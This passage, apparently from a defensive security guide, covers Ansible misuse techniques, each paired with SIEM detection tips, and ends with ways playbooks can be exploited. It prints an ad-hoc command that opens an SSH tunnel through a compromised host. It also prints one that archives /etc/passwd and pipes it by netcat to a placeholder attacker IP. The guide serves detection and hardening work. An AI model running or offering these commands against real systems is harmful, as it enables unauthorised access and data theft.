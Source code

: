    - **Example:**
     ```bash
     ansible all -m shell -a "ssh -f -N -L 4444:internal_service:80 attacker@compromised_host"
     ```
     This sets up a tunnel from the compromised host to an internal service, allowing the attacker to access internal resources.

   - **SIEM Detection:**
     - **Monitor for SSH tunneling**: Watch for SSH commands that establish port forwarding, especially those initiated by Ansible.
     - **Track unusual network patterns**: Identify patterns of connections that indicate potential tunneling or unauthorized access to internal services.

### 6. **Extracting Sensitive Data**
   An attacker could use Ansible to extract sensitive data from the target systems and send it to an external location.

   - **Example:**
     ```bash
     ansible all -m shell -a "tar czf - /etc/passwd | nc attacker_ip 4444"
     ```
     This command archives the `/etc/passwd` file and sends it to the attacker's machine via netcat.

   - **SIEM Detection:**
     - **Monitor data exfiltration**: Set up alerts for commands that involve compressing or transferring files, especially when network tools like `nc`, `curl`, or `scp` are used.
     - **Watch for unusual outbound traffic**: Identify large or unexpected data transfers from Ansible-managed nodes to external IP addresses.



### **Exploiting Playbooks**

Ansible playbooks, while powerful for automation, can also be misused if not properly secured. Here are a few ways that playbooks can be exploited:

#### **A. Misconfigured Playbooks**:
- **Privileged Operations**: If playbooks are written to execute commands as root (`become: true`), an attacker could insert malicious tasks that are run with elevated privileges.
- **Unrestricted Variables**: Using unsanitized variables or allowing external input can lead to command injection or other unintended behaviors.

#### **B. Credential Exposure**:
- **Embedded Secrets**: Storing plaintext passwords, API keys, or other credentials directly in playbooks or inventory files can expose sensitive information. An attacker with access to these files could reuse credentials for unauthorized access.

#### **C. Remote Code Execution (RCE)**:
- **Insecure Modules**: Some modules, like `shell` or `command`, allow execution of arbitrary commands. If an attacker can modify playbooks or ad-hoc commands, they can inject malicious code that runs on all managed nodes.
  
**Example of Exploit in a Playbook**:
If an attacker gains access to a playbook that uses the `shell` module, they could modify it to include malicious commands.
